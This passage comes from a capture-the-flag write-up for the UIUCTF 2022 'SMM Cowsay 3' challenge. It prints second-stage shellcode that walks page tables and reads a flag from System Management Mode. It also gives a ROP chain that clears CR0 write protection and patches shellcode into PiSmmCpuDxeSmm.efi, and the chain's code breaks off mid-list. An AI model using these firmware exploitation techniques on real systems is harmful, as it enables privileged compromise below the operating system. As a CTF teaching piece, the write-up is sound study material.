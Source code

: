 ### Second stage shellcode

As we just said we will make our ROP chain with a few gadgets that will write
a  
second stage shellcode into the `.text` of `PiSmmCpuDxeSmm.efi` and then jump
to  
it. This shellcode will have to walk the page table (this time we cannot  
pre-compute the address of the PTE because of ASLR), set the present bit on
the  
PTE and then read the flag into (one or more) registers.

```python  
stage2_shellcode = asm(f'''  
   movabs rbx, 0xffffffff000

   /* Walk page table */  
   mov rax, cr3  
   mov rax, qword ptr [rax]  
   and rax, rbx  
   mov rax, qword ptr [rax + 8 * 0x1]  
   and rax, rbx  
   mov rax, qword ptr [rax + 8 * 0x22]  
   and rax, rbx  
   mov rbx, rax  
   mov rax, qword ptr [rax + 8 * 0x40]

   /* Set present bit */  
   or al, 1  
   mov qword ptr [rbx + 8 * 0x40], rax

   /* Read flag and die so regs get dumped, GG! */  
   movabs rax, 0x44440000  
   mov rax, qword ptr [rax]  
   ud2  
''')  
```

Again, we can run the exploit multiple times changing that `0x44440000` to
leak  
8 bytes at a time and obtain the full flag.

### Putting it all together

Now we can build the ROP chain and send the exploit in the same way we did for  
SMM Cowsay 2:

```python  
real_chain = [  
   # Unset CR0.WP  
   pop_rax_rbx_r12, # pop rax ; pop rbx ; pop r12 ; ret  
   0x80000033     , # -> RAX  
   0xdeadbeef     , # filler  
   0xdeadbeef     , # filler  
   mov_cr0_rax    , # mov cr0, rax ; wbinvd ; ret  
]

# Now that CR0.WP is unset, we can just patch SMM code and jump to it!  
# Make the ROP chain write the stage 2 shellcode at PiSmmCpuDxeSmm_text  
# 8 bytes at a time, then jump into it  
for i in range(0, len(stage2_shellcode), 8):  
   chunk = stage2_shellcode[i:i + 8].ljust(8, b'\x90')  
   chunk = u64(chunk)

   real_chain += [  
       pop_rax_rbx_r12        , # pop rax ; pop rbx ; pop r12 ; ret  
```

[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-